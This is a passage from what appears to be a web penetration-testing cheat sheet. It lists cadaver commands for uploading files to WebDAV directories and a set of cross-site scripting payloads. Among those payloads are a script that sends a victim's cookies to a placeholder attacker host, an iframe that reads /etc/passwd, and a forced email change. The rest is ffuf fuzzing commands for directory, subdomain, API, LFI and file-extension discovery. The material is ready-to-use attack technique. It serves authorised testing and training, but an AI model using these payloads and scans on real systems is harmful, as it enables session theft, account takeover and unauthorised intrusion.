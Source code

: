 <h4>cadaver</h4>
<pre><code class="language-c">cadaver http://&lt;RHOST&gt;/&lt;WEBDAV_DIRECTORY&gt;/
</code></pre>
<pre><code class="language-c">dav:/&lt;WEBDAV_DIRECTORY&gt;/&gt; cd C
dav:/&lt;WEBDAV_DIRECTORY&gt;/C/&gt; ls
dav:/&lt;WEBDAV_DIRECTORY&gt;/C/&gt; put &lt;FILE&gt;
</code></pre>
<h4>Cross-Site Scripting (XSS)</h4>
<pre><code class="language-c">&lt;sCrIpt&gt;alert(1)&lt;/ScRipt&gt;
&lt;script&gt;alert('XSS');&lt;/script&gt;
&lt;script&gt;alert(document.cookies)&lt;/script&gt;
&lt;script&gt;document.querySelector('#foobar-title').textContent = '&lt;TEXT&gt;'&lt;/script&gt;
&lt;script&gt;fetch('https://&lt;RHOST&gt;/steal?cookie=' + btoa(document.cookie));&lt;/script&gt;
&lt;script&gt;user.changeEmail('user@domain');&lt;/script&gt;
&lt;iframe src=file:///etc/passwd height=1000px width=1000px&gt;&lt;/iframe&gt;
&lt;img src='http://&lt;RHOST&gt;'/&gt;
</code></pre>
<h4>ffuf</h4>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/dirb/common.txt -u http://&lt;RHOST&gt;/FUZZ --fs &lt;NUMBER&gt; -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://&lt;RHOST&gt;/FUZZ --fw &lt;NUMBER&gt; -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://&lt;RHOST&gt;/FUZZ -mc 200,204,301,302,307,401 -o results.txt
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://&lt;RHOST&gt;/ -H &quot;Host: FUZZ.&lt;RHOST&gt;&quot; -fs 185
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://&lt;RHOST&gt;/backups/backup_2020070416FUZZ.zip
</code></pre>
<h5>API Fuzzing</h5>
<pre><code class="language-c">ffuf -u https://&lt;RHOST&gt;/api/v2/FUZZ -w api_seen_in_wild.txt -c -ac -t 250 -fc 400,404,412
</code></pre>
<h5>Searching for LFI</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://&lt;RHOST&gt;/admin../admin_staging/index.php?page=FUZZ -fs 15349
</code></pre>
<h5>Fuzzing with PHP Session ID</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt  -u &quot;http://&lt;RHOST&gt;/admin/FUZZ.php&quot; -b &quot;PHPSESSID=a0mjo6ukbkq271nb2rkb1joamp&quot; -fw 2644
</code></pre>
<h5>Recursion</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://&lt;RHOST&gt;/cd/basic/FUZZ -recursion
</code></pre>
<h5>File Extensions</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://&lt;RHOST&gt;/cd/ext/logs/FUZZ -e .log
</code></pre>
<h5>Rate Limiting</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 5 -p 0.1 -u http://&lt;RHOST&gt;/cd/rate/FUZZ -mc 200,429
</code></pre>
<h5>Virtual Host Discovery</h5>
<pre><code class="language-c">ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H &quot;Host: FUZZ.&lt;RHOST&gt;&quot; -u http://&lt;RHOST&gt; -fs 1495
</code></pre>
<h5>Massive File Extension Discovery</h5>